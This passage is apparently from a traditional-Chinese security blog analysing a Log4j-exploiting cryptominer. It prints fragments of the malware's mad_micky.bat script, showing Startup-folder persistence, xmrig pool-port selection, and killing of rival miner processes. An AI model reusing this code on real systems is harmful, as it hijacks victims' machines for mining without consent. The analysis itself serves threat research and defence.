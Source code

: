 <figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a54849ba531521cac33f_1-4.jpeg" alt="利用危險的 Log4j 漏洞 CVE-2021-44228 的加密貨幣挖掘代碼中的漏洞"/></figure>



<p><em>圖 4：mad_micky.bat 文件的 OSINT 關聯</em></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h3>流程細節——mad_micky.bat 文件</h3>



<h4>安裝</h4>



<pre class="wp-block-code"><code>set “STARTUP_DIR=%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup”
set “STARTUP_DIR=%USERPROFILE%\Start Menu\Programs\Startup”

looking for the following utilities: powershell, find, findstr, tasklist, sc
set “LOGFILE=%USERPROFILE%\mimu6\xmrig.log”
if %EXP_MONER_HASHRATE% gtr 8192 ( set PORT=18192 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 4096 ( set PORT=14906 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 2048 ( set PORT=12048 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 1024 ( set PORT=11024 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 512 ( set PORT=10512 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 256 ( set PORT=10256 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 128 ( set PORT=10128 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 64 ( set PORT=10064 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 32 ( set PORT=10032 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 16 ( set PORT=10016 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 8 ( set PORT=10008 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 4 ( set PORT=10004 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 2 ( set PORT=10002 &amp; goto PORT_OK)
set port=10001</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h4>準備礦工</h4>



<pre class="wp-block-code"><code>echo &#91;*] Removing previous mimu miner (if any)
sc stop gado_miner
sc delete gado_miner
taskkill /f /t /im xmrig.exe
taskkill /f /t/im logback.exe
taskkill /f /t /im network02.exe
:REMOVE_DIR0
echo &#91;*] Removing “%USERPROFILE%\mimu6” directory
timeout 5
rmdir /q /s “USERPROFILE%\mimu6” &gt;NUL 2&gt;NUL
IF EXIST “%USERPROFILE%\mimu6” GOTO REMOVE_DIR0</code></pre>
